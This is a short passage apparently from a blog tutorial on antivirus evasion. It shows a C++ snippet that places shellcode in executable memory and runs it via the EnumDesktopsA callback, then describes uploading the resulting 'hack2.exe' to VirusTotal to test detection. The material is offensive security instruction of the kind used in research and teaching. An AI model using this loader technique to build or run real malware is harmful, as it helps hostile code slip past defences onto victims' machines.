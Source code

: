 ![av-evasion](/assets/images/102/2023-06-26_12-38.png){:class="img-responsive"}      

As you can see, everything worked as expected! =^..^=     

Note that I used `EnumDesktopsA` for running shellcode in all examples in this post:     

```cpp
LPVOID mem = VirtualAlloc(NULL, pad_len-2, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
RtlMoveMemory(mem, padded, pad_len - 2);
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

Let's go to upload this `hack2.exe` to VirusTotal:     

![av-evasion](/assets/images/102/2023-06-26_12-43.png){:class="img-responsive"}      
